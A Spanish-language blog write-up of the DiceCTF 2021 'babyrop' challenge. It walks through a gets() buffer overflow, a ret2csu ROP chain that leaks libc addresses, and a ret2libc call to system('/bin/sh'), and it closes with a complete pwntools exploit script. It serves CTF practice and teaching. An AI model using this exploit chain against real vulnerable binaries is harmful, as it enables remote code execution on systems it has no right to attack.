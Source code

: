 ```yaml
---
layout: post
title: diceCTF babyrop
date: 2021-02-09 13:59
comments: true
categories: [Sin categoría]
---
```


Hola, ya que he decidido migrar mi página github pages,y para pastor este 2021, aprovecharé de hacer un write up de un binario que hice el fin de semana en DICECTF 2021. La parte de pwn estuvo bien buena. Solo alcance a hacer este rop y un heap a medias, pero al menos sirvió para mantener la práctica. 

El binario en cuestión podemos ver que es de 64bit , sin RELRO ni PIE, lo cual hace las cosas bastante sencillas. Eso sí, debemos considerar que probablemente ASLR si está habilitado en el sistema con lo que de todas formas necesitaremos de un leak.

![Imgur](https://i.imgur.com/wtXtqAk.png)

Al revisar las funciones vemos que ocupa la función GETS (ya sabemos que esto lleva a buffer overflow), pero solo ocupa adicional a esto la función de ”write” para imprimir en pantalla.


Considerando esto nuestro plan de explotación será el siguiente:

Generar un Overflow y usar ROP para “lekear” una dirección de LIBC
Identificar la version de LIBC
Calcular los offsets necesarios
Volver a generar un Buffer Overflow esta vez llamar a system y obtener una shell


Para obtener el leak el plan es generar un ROP y hacer un llamado a la función de write, podemos observar los parámetros que usa este syscall en el siguiente link. En resumen debemos ubicar en el registro RDI el file descriptor 1 (stdout), la dirección  que queramos “lekear” en RSI (en este caso usaremos la dirección GOT de gets y write) y en el registro RDX debemos darle un valor que usará para definir cuántos bytes se imprimirán en pantalla. Por lo mismo debemos considerar para esto al menos 8 bytes.


Podemos usar “ropper” para mostrar los gadgets del binario y no tener que hacer una búsqueda manual, pero vemos que no hay forma de controlar el valor de rdx, pero! Por eso mismo siempre les recomiendo revisar el binario de manera manual, por que en este caso podemos ocupar una técnica conocida como ret2csu. 

Puedes leer una descripción más detallada acá, pero en resumen usando esta técnica podemos encontrar ciertos “gadgets universales” que nos permiten controlar ciertos registros haciendo uso de estas funciones que siempre se cargan en un ELF producto de la compilación. En este caso usaremos la funcion __lib_vsu_init

Podemos observar que podemos usar un pop al registro R14 en la dirección 0x4011d0 y luego mover con “MOV rdx, r14” en 0x4011b0 el valor al registro RDX. Además el mismo gadget nos permitirá usar R15 y R13 para poder situar los valores de RSI y EDI (4 bytes de RDI).

Para que esto funcione debemos primero agregar los registros necesarios en nuestro “ropchain” de tal m anera que pase el check en 0x4011c4 y hacer que el call, llame a write directamente por lo cual debemos asegurarnos que el valor de write este en  0x4011b9 call   QWORD PTR [ r15+rbx*8 ] 

```
payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof
```

Si enviamos esto podemos lekear las direcciones de gets y write


Con esto podemos buscar una versión de libc remota que coincida y de esa forma podemos calcular los offsets.

Podemos ver que coincide con la versión <> , podríamos descargarla pero dado que esta pagina nos entrega los offset a system y al string de /bin/sh dentro de glibc, pues probaremos con esto en nuestro segundo payload, de la siguiente forma:

```
payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

```


Con esto ejecutamos y listo! Tenemos una shell.

Espero que les haya gustado, este fue el único exploit que pude terminar en el CTF tuve mucho que hacer y los retos no estaban tan fáciles. Aun asi ya he hechos desafíos para Q4 que ocupan esta técnica, por lo cual me pareció valido mostrar como funciona. Espero les haya gustado, aca les dejo el exploit final:

```
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./babyrop')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./babyrop', gdbscript=gs)
    if args.REMOTE:
        return remote('dicec.tf', 31924)
    else:
        return process('./babyrop')
r = start()
r.timeout = 0.3
#========= exploit here ===================

poprdi = 0x4011d3
ret = 0x040116b

payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof

r.sendlineafter("name:", payload)

leak = u64(r.recvuntil("Your").split(b"Your")[0][1:7].ljust(8,b"\x00"))  #remote offset
libc.address = leak - 0x086af0
log.info(f"leak = {hex(leak)}")
log.info(f"libc remote = {hex(libc.address)}")

payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

r.sendlineafter("name:", payload)  #!!

#========= interactive ====================
r.interactive()
```